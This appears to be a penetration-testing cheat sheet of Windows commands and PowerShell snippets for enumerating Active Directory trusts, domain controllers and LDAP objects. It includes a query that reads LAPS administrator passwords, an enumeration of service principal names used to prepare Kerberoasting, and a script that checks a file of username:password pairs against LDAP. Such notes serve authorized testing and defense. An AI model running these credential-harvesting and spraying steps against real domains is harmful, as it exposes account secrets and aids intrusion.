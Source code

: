 # Trust
## CMD
```batchfile
nltest /trusted_domains
```
## PowerShell
### Domain
```powershell
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```
### Forest
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

# LDAP

## Find Domain Controllers
### PowerShell
```powershell
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).DomainControllers
```

## Find LDAP servers

```batchfile
nltest /dclist:<domain>
nslookup -type=srv _ldap._tcp.dc._msdcs.<domain>
```

## Connection to a LDAP server with custom credentials 
```powershell
$ip=<ip of a DC>
$credential = Get-Credential -Credential "<domain>\<user>"
$domaininfo = new-object DirectoryServices.DirectoryEntry("LDAP://$ip",$($credential.UserName),$($credential.GetNetworkCredential().password))
$searcher = New-Object System.DirectoryServices.DirectorySearcher($domaininfo)
$searcher.filter = <filter>
$searcher.FindAll()
```

## Get-SamAccountName
```powershell
$SAMAccountName=<user>
$searcher.filter = "(&(objectClass=User)(sAMAccountName=$SAMAccountName))"
$searcher.findAll().Properties
```
## LAPS Passwords
```powershell
$searcher.filter = "(ms-Mcs-AdmPwd=*)"
$searcher.findAll().Properties
```

## Nested Group Membership
```powershell
$searcher.filter = "(memberOf:1.2.840.113556.1.4.1941:=cn=Domain Admins,cn=Users,dc=example,dc=com)"
$searcher.FindAll()
```

## Get Service Principal Names
```powershell
$search = New-Object DirectoryServices.DirectorySearcher([ADSI]"")
$search.filter = "(&(objectCategory=person)(objectClass=user)(servicePrincipalName=*))"
$results = $search.Findall()
foreach($result in $results)
{
	$userEntry = $result.GetDirectoryEntry()
	Write-host "User : " $userEntry.name "(" $userEntry.distinguishedName ")"
	Write-host "SPNs"        
	foreach($SPN in $userEntry.servicePrincipalName)
	{
		$SPN       
	}
	Write-host ""
}
```

## Check credentials over LDAP
```powershell
# credential format domain\username:password
$filename = "credentials.txt"
$ldap = 'LDAP://<ip>'

Get-Content $filename | ForEach-Object {
	$username = $_.split(":")[0]
	$password = $_.split(":")[1]

	if ($username[0] -ne "#")
	{
		$domain = New-Object System.DirectoryServices.DirectoryEntry($ldap,$username,$password)

		if ($domain.name -eq $null)
		{
			write-host "- $username"
		}
		else
		{
			write-host "+ $username"
		}
	}
}
```

# [Kerberos cheatsheet](https://github.com/okazymyrov/piki/blob/master/kerberos_attacks_cheatsheet.md)

